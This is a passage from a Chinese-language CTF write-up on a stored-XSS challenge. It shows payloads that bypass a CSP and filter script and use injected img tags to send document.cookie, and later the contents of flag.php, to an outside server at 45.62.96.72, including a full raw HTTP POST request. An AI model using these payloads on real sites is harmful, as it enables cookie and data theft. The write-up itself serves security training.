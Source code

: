 在VPS上可以收到这样的数据

![XSS1](https://mo-xiaoxi.github.io/img/post/whctf/NOT_ONLY_XSS1.jpeg)

然后，访问一下页面

`http://118.31.15.206:20006/upload/26a155556d805e00c4c5a845e9418515.html`

可以看到这个页面不仅有CSP的限制，还有一个filter.js代码。这个代码会限制很多JS的操作。

通过本地测试，以下代码可以绕过限制

```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' 'unsafe-inline';style-src 'self' 'unsafe-inline';img-src *;">
<script src='../js/filter.js'></script>
<h2>Phone</h2> 15084760817<br>
<h2>secret</h2><br>
<img src="http://45.62.96.72:5678/11">
<script>
    var ss = "http://45.62.96.72:5679/2/?p="+document.cookie;
    var elem = document.createElement("img");
    elem.setAttribute("src", ss);
    document.body.appendChild(elem);
</script>
<h2>Email</h2>momomomoxiaoxi@gmail.com
```

![XSS2](https://mo-xiaoxi.github.io/img/post/whctf/NOT_ONLY_XSS2.png)

可以弹到数据！（这里说明一下，为什么要弹两次。主要是为了通过第一个img获取生成的网页的具体网址。好当发现后面的js代码没有执行时，获取原始页面内容，查看是否是语法错误或者其它，方便调试）

接下里就掉入一个大坑中了。在测试中，发现这个payload在远程永远无法执行。很迷。。

后来，才发现提交的代码中js字符串拼接的+号，直接提交时会被解码成空格生成页面。那么后面的js代码就有语法错误，所以无法执行。

![XSS3](https://mo-xiaoxi.github.io/img/post/whctf/NOT_ONLY_XSS3.png)

所以，在提交的时候需要对+编码。

此时，JS能够成功执行，但是document.cookie是空，说明不是打cookie的值。后来，发现存在一个flag.php文件。这里很神奇，本来感觉基本没办法读取。因为是flag.php，感觉admin访问和用户访问应该显示的是一样的（这里无cookie机制，即没权限区分。当然可能是httponly的Cookie，打不出来）。但是，后来抱着试一试的心态，突然把flag打到了。这里的问题在于XSS bot是以PhantomJS/2.1.1开发的，而它可以直接读取到源码。

payload：

```html
POST / HTTP/1.1
Host: 118.31.15.206:20006
Content-Length: 303
Cache-Control: max-age=0
Origin: http://118.31.15.206:20006
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://118.31.15.206:20006/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: PHPSESSID=1cmok66ci2idscuhaq8b5649s6
Connection: close

name=mo+xiaoxi&email=momomomoxiaoxi%40gmail.com&phone=15084760817&verify=541274&secret=<img src="http://45.62.96.72:5678/11"><script>var xhr = new XMLHttpRequest();var url = "../flag.php";xhr.open("GET", url, true);xhr.send(null);setTimeout(function(){console.log(xhr);var ss = "http://45.62.96.72:5679/?p="%2bescape(xhr.responseText);var elem = document.createElement("img");elem.setAttribute("src", ss);document.body.appendChild(elem);}, 3000);</script>
```
